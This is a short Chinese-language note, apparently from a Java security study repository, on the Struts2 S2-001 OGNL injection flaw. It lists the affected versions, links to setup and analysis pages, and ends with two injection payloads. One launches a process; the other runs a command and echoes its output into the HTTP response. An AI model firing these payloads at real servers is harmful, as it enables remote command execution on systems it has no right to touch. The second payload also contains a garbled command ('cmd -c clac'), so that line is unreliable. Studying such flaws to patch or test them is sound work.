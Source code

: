 ## S2-001
### 影响环境

WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8

而Struts2 对 OGNL 表达式的解析使用了开源组件 `opensymphony.xwork 2.0.3`所以会有漏洞

### 漏洞环境搭建

[JavaSec/环境搭建.md at main · Y4tacker/JavaSec (github.com)](https://github.com/Y4tacker/JavaSec/blob/main/7.Struts2%E4%B8%93%E5%8C%BA/%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md)

### 漏洞分析

[S2-001漏洞分析](Struts2漏洞/S2-001漏洞分析.md)

### payload

`%{(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()}`

`%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cmd","-c","clac"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}`